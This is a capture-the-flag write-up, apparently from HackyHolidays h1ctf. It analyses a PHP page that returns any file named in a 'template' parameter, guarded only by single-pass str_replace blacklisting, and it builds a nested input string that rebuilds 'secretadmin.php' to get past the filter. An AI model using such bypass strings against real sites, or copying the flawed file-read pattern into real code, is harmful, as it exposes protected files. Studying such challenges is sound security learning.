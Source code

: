 **Request**

https://hackyholidays.h1ctf.com/my-diary/?template=index.php

**Response**

```php
<?php
if( isset($_GET["template"])  ){
    $page = $_GET["template"];
    //remove non allowed characters
    $page = preg_replace('/([^a-zA-Z0-9.])/','',$page);
    //protect admin.php from being read
    $page = str_replace("admin.php","",$page);
    //I've changed the admin file to secretadmin.php for more security!
    $page = str_replace("secretadmin.php","",$page);
    //check file exists
    if( file_exists($page) ){
       echo file_get_contents($page);
    }else{
        //redirect to home
        header("Location: /my-diary/?template=entries.html");
        exit();
    }
}else{
    //redirect to home
    header("Location: /my-diary/?template=entries.html");
    exit();
}
```

**Code analysis**

+ While analyzing the above code, it looks like there was a regex check operation, so it means we're only allowed for the range "a-z, A-Z, and 0-9." and thus, no special characters.

+ On the code `$page = str_replace("admin.php","",$page);`, string "admin.php" was replaced with blank character "" .
+ On the code `$page = str_replace("secretadmin.php","",$page);`, string "secretadmin.php" was also replaced with blank character "".
+ In the comment section, the developer has specifically written the comment as "protect admin.php from being read" and then following up "I've changed the admin file to secretadmin.php for more security".
+ Thus, it means we need only the "secretadmin.php" path on the template parameter as "admin.php" was protected.
+ However, as the server was replacing "secretadmin.php" with a blank character, thus it was not fulfilling the condition and redirects to the default page as 
"/my-diary/?template=entries.html".

+ In order to bypass it, it needed a regex bypass condition. In order to bypass the regex condition, I can't apply any special characters, however, I can still use the above string replace condition to bypass the condition which was a blank condition string check.

**Regex Calculation**

```
admin.php = ""                     |   - replaced by blank character
secretadmin.php = ""      | -  replaced by blank character

secretadmin.php   ------->   add blank space ------>secretad''min.php   -------> replace ''with secretadmin.php -------> 
secretadsecretadmin.phpmin.php -------> add blank space --------->   secretadsecretad''min.phpmin.php  ----------> 
replace  '' with admin.php (to complicate more regex check) ----------> secretadsecretadadmin.phpmin.phpmin.php

Final string - secretadsecretadadmin.phpmin.phpmin.php
```

